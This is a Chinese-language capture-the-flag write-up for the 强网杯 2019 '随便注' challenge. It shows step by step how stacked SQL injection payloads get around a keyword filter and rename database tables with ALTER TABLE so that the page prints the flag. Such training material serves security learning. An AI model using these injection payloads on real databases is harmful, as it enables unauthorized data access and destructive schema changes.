





# [[强网杯 2019]随便注](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)

## 方法1_修改表名

1. 容器运行起来，只有一个输入框，结合题目名字可能是`sql注入`   

    

2. 进行输入测试

- 输入框：`1`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

```
- 输入框：`1'`,返回    
```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```
输入框：`1"`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```
`sql`语句是使用`'`进行闭合的

- 输入：`1' or 1=1;`，看一下这个表所有数据    
    - 表中总共只有三条数据，没有发现`flag`的痕迹    

   

输入`1`，`2`和`114514`以外的数据返回为空

- 输入：`1' or 1=1;show tables;`，看一下这个库所有表    
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

- `words`和`1919810931114514`表都感觉像藏`flag`的表。输入：`1' or 1=1;select * from 1919810931114514;`，看一下`1919810931114514`这个奇奇怪怪的表中有没有`flag`   
```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
被识别了，不能运行，不能使用`select|update|delete|drop|insert|where|\./i`这些    

- 不能查看表中数据，只能看表结构……   
输入：
```
1' or 1=1;desc `1919810931114514`;
```

    

找到了`flag`可能隐藏的字段，但是不准使用`select`。而且网站默认查询的表是`words`     
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

3. 到现在能够得到一下信息：
    - 网站的查询语句应该是：`sql='select * from words where id = '%id`
    - `flag`应该就藏在`1919810931114514`表的`flag`字段
    - 输入中不能带有`select|update|delete|drop|insert|where|\./i`这些敏感词

想要`flag`就必须有`select`，但是又限制了`select`输入……

4. 根据[其他人的writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)找到了突破点：**改名**！将`1919810931114514`改成`words`，`flag`字段改成`id`,就可以直接使用原本就有的`select`
```sql
1' or 1=1;alter table `words` rename to `no_use`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);show tables;desc `words`;# 
```   

    

5. 数据库修改成功，现在直接输入`1' or 1=1;`就可以得到`flag`啦   

    

## 其他解题步骤

- 后来又发现这道题还有其他[解法](https://www.cnblogs.com/chalan630/p/12583667.html)

## 参考资料

- [题目对应容器-CTFTraining](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)
- [[强网杯 2019]随便注-writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)
- [[强网杯 2019]随便注-三种解题方法](https://www.cnblogs.com/chalan630/p/12583667.html)